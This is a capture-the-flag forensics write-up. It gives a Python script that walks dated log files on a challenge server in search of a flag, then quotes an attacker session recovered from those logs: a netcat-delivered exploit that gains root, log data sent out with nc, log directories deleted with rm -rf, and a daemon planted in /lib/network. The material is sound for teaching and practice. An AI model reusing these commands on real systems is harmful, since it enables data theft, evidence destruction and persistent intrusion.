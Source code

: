 ### Solution

After testing some random dates, I noticed that the logs go back a few years. It would take forever to go though these manually, so I created a quick script to search though the logs for a flag. 


```python
import datetime
import requests

f = open("log.log", "w")
url = 'https://logs.sdc.tf/logs/'
req = requests.session()

# Format: 2021/12/15/Wed.log
week_days = ['Mon', 'Tue', 'Wed', 'Thu', 'Fri', 'Sat', 'Sun']

for year in range(2022,2015,-1):
    for month in range(1,13):
        for day in range(1,32):
            try:
                week = datetime.date(year,month,day).weekday()
            except: # error based on invalid day in month
                week = 0
            dow = week_days[week]
            log = f'{year}/{month}/{day}/{dow}.log'
        
            r = req.get(url + log)
            f.writelines(r.text)
            print(f'Trying: {log}  Response length: {len(r.text)}')
            #print(r.text)
            if "sdctf" in r.text:
                print(r.text)
                exit()
```

The flag wasn't found in any of the logs, so I saved all of the logs to a single file to dive into it further. 

```bash
zach$ grep ":~#" log.log | grep -v "/logger"
john@logger:~# nc -l 1337 > exploit
john@logger:~# chmod +x exploit
john@logger:~# ./exploit
```

After noticing the commands above I went back to the full log file to see what else was done around this commands. 

```shell
john@logger:~# nc -l 1337 > exploit
john@logger:~# chmod +x exploit
john@logger:~# ./exploit
# whoami
root
# ls
exploit  logs  site
# ls logs 
2016  2017  2018
# tar -cf data.tar.gz ~/logs
tar: Removing leading `/' from member names
tar: /home/john/data.tar.gz: file is the archive; not dumped
# nc -l 1337 < data.tar.gz
# rm -rf /home/john/logs/2018/6/10 /home/john/logs/2018/6/11 /home/john/logs/2018/6/12
# rm data.tar.gz
# mkdir /lib/network
# nc -l 1337 > /lib/network/daemon
```